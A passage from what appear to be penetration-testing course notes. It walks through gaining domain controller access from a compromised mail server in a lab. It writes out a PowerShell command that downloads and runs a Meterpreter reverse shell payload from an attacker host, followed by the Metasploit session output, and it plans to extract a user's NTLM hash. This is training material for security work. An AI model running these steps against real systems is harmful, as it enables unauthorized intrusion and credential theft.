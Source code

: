 In the next Learning Unit, we'll leverage the interactive shell on MAILSRV1 to obtain privileged access to the domain and its domain controller

## Gaining Access to the Domain Controller
In the previous Learning Unit, we gained access to MAILSRV1 as _NT AUTHORITY\SYSTEM_
+ Based on the information from enumerating the network, we'll attempt to obtain domain _Administrator_ privileges in this Learning Unit and use them to access the domain controller

### Cached Credentials
As planned, we obtained privileged code execution on MAILSRV1
+ Our next step is to extract the password hash for the user _beccy_, which has an active session on this system
+ Depending on the objective of the penetration test, we should not skip the local enumeration of the MAILSRV1 system
+ This could reveal additional vulnerabilities and sensitive information, which we may miss if we directly attempt to extract the NTLM hash for _beccy_

Once we discover that no AV is running, we should upgrade our shell to Meterpreter
+ This will not only provide us with a more robust shell environment, but also aid in performing post-exploitation

Let's download the previously created Meterpreter reverse shell payload **met.exe** to perform post-exploitation:
```
PS C:\Windows\system32> cd C:\Users\Administrator

PS C:\Users\Administrator> iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe

PS C:\Users\Administrator> .\met.exe
```

In Metasploit, we should receive a new incoming session:
```
[*] Sending stage (200774 bytes) to 192.168.50.242
[*] Meterpreter session 2 opened (192.168.119.5:443 -> 192.168.50.242:50814)
```

Let's interact with the session and spawn a new PowerShell command line shell:
```
msf6 post(multi/manage/autoroute) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 416 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.1006]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\Administrator> 
```
